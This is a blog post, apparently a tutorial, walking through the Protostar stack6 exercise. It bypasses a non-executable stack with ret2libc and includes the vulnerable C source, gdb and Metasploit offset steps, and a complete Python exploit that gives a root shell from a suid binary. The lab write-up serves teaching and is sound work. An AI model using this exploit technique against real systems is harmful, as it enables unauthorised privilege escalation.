 ```yaml
---
layout: post
title: Buffer Overflow Examples, Bypassing non-executable stack by re2libc - protostar stack6
categories: binary-exploitation
tags: [linux, binary-exploitation, exploit-development, buffer-overflow, c, python]
description: In this binary exploitation post I show how to bypass non-executable stack protection (prevents executing shellcode) using a technique called re2libc. (x32)
image: binary-exploitation/BOF6/0.png
---
```


<hr>
## Introduction
<br> Hey guys , In the last post about buffer overflow we exploited a buffer overflow vulnerability where we were able to inject a shellcode and escalate privileges to root. But that was possible because we were able to overwrite the return address to another address on the stack where we placed our shellcode , but what if the stack is non-executable ? we will perform an attack called ret2libc and that's what we are going to discuss today with protostar - stack6. Without wasting more time let's jump right in !
<br> Read the [previous posts](/categories/#binary-exploitation) if you haven't yet.
![](/images/binary-exploitation/BOF6/0.png)
<hr>
## ./stack6
<br> As always we are given the source code of the binary :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
        char buffer[64];
        unsigned int ret;

        printf("input path please: "); fflush(stdout);

        gets(buffer);

        ret = __builtin_return_address(0);

        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }

        printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
        getpath();



}
```
<br> What this code is doing is just printing `input path please:` then it stores our input in a buffer of 64 chars and finally it prints it out:
![](/images/binary-exploitation/BOF6/1.png)
<br> Our problem is this `if` statement :
```
        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }
```
<br> This is making sure that the return address is not on the stack , which makes it not possible to perform a shellcode injection like we did in the [previous example](/binary-exploitation/bof5/). We can defeat this by a technique called ret2libc.
<br>
<hr>
## ret2libc
<br> So what is "ret2libc" ? If we take the word itself : "ret" is return , "2" means to and "libc" is the C library. The idea behind ret2libc is instead of injecting shellcode and jumping to the address that holds that shellcode we can use the functions that are already in the C library. For example we can call the function `system()` and make it execute `/bin/sh`. (Read about `system()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)). We will also need to use the function `exit()` to make the program exit cleanly. (Read about `exit()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_exit.htm)).
<br> So finally our attack payload will be : "padding --> address of `system()` --> address of `exit()` --> `/bin/sh`" instead of : "padding --> new return address --> NOP --> shellcode".
<br> Now let's see how will we do it.
<br>
<hr>
## Exploiation 
<br> Again , this will execute `/bin/sh` as root because this binary is an `suid` binary. If it wasn't `suid` we would get a shell as the same user. We can check by using `find` :
`find /opt/protostar/bin/ -perm -4000 | grep stack6`
![](/images/binary-exploitation/BOF6/2.png)
<br> As you can see `stack6` is an `suid` binary.
<br> So first of all , after we call `system()` we will need to give it `/bin/sh` , how will we do that ? A nice way to do it is to store `/bin/sh` in an environment variable. I created a variable and called it `SHELL` :
![](/images/binary-exploitation/BOF6/3.png)
<br> Now we need to find the address of that variable , we can do it from `gdb` by setting a breakpoint at main , then running the program and doing this : `x/s *((char **)environ+x)` where `x` is a number , This will print the address of an environment variable. We will keep trying numbers until we get the address of `SHELL`
<br> But I found a better way to do it when I was reading an article on [shellblade](https://www.shellblade.net/). We will use a `c` program to tell us the estimated address.
<br> Code :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELL");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```
![](/images/binary-exploitation/BOF6/4.png)
<br> Then we will compile it : `gcc address.c -o address` :
![](/images/binary-exploitation/BOF6/5.png)
<br> As you can see it's telling us the address of the environment variable `SHELL`. Now keep in mind that this is not the "exact" address and we will need to go up and down to get the right address.
<br> Let's start by finding the offset. As we did before we will use `pattern_create.rb` and `pattern_offset.rb` from metasploit exploitation tools.
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF6/6.png)
<br> We have our pattern now let's run the program in gdb and set a breakpoint before main `break *main`. Then we will type `c` to continue and paste the pattern. The buffer will overflow and we will see exactly where did the overflow happen : 
![](/images/binary-exploitation/BOF6/7.png)
<br> We got the address `0x37634136` , now let's go back and use `pattern_offset.rb` :
`./pattern_offset.rb -q 0x37634136`
![](/images/binary-exploitation/BOF6/8.png)
<br> So after 80 chars the buffer overflows. Next thing to check is the addresses of `system()` and `exit()`. From gdb we will set a break point at main and type `r` to run the program. After it reaches the break point and breaks we can get the address of system by typing `p system` and we will do the same thing for exit `p exit` :
![](/images/binary-exploitation/BOF6/9.png)
<br> Address of system : `0xb7ecffb0`
<br> Address of exit : `0xb7ec60c0`
<br> Lastly we will check the address of `SHELL` again because it's subject to change :
![](/images/binary-exploitation/BOF6/10.png)
<br> Address : `0xbffff985` 
<br> Let's check our notes :
![](/images/binary-exploitation/BOF6/11.png)
<br> Ok , we are ready to write our exploit , we will use struct `import struct` like we did before. We will create a variable for the chars we will use to fill the buffer and call it `buffer` , its value will be 80 A's.
`buffer = "A" * 80`
<br> Then we will create 3 variables to hold the addresses of `system()` , `exit()` and `SHELL`. We will use struct to reverse the addresses.
`system = struct.pack("I" ,0xb7ecffb0)`
<br>
<br>
`exit = struct.pack("I" ,0xb7ec60c0)`
<br>
<br>
`shell = struct.pack("I" ,0xbffff985)`
<br> And finally we will print the payload.
`print buffer + system + exit + shell`
<br> Final script :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff985)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/12.png)
<br> We have to remember that the address of `SHELL` is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6` :
![](/images/binary-exploitation/BOF6/13.png)
<br> And no shell , After going up and down by editing the address in the python script I finally got the right address which is `0xbffff992` :
`python /tmp/stack6.py > /tmp/payload`
<br>
<br>
`cat /tmp/payload - | ./stack6`
![](/images/binary-exploitation/BOF6/14.png)
<br> root shell!
<br> So after editing the address of `shell` variable , the script will be like this :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff992)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/15.png)
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Binary Exploitation article : [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](/binary-exploitation/bof5/)
<hr>
